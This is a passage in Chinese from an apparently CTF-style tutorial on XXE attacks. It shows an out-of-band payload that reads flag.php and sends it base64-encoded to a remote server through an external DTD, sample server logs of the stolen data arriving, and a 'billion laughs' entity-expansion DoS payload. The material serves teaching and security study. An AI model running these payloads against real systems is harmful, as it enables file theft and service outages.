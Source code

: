 然后考虑XML Payload：

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE updateProfile [
    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=./flag.php">
    <!ENTITY % dtd SYSTEM "https://blog.evalexp.ml/evil.dtd">
    %dtd;
    %send;
]>

<user><username>admin</username><password>admin</password>
```

接下来看该Payload，我们先声明一个实体，为**file**，该时读取了flag.php的内容并进行Base64编码(防止URL编码中丢失数据)。

接下来声明了另一个实体**dtd**，dtd的内容为VPS上的dtd文件，在该dtd文件中声明了一个实体**all**，其内容为一个声明字符串，声明了实体**send**，在字符串中的实体声明注意编码。

接下来我们先是引用了**dtd**实体，这就使得远程**dtd**文件被包含进来了，从而声明了实体**send**，此时再引用了**send**实体，这将会把**file**的实体内容发送到我们的VPS上。

样例数据：

```http
108.162.215.8 - - [28/May/2021:15:39:21 +0000] "GET /evil.dtd HTTP/1.1" 200 96 "-" "-"
172.69.35.33 - - [28/May/2021:15:39:24 +0000] "GET /?data=PD9waHANCiRmbGFnPSJjdW10Y3Rme3h4M19pc19WZVJ5X0U0c1l9IjsNCj9waHA+ HTTP/1.1" 200 5198 "-" "-"
```

在能外带信息的基础上，其实也和回显型差不多的利用方式了。

### 关于XXE的DOS攻击

大家提起XXE很容易忽略的一个事情，XXE能否造成DOS攻击，回答是肯定的。

由于它可以引用实体，从而使得XML内容指数型扩增，来考虑一个XML文档：

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ELEMENT lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol
;&lol;">
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&
lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&
lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&
lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&
lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&
lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&
lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&
lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&
lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

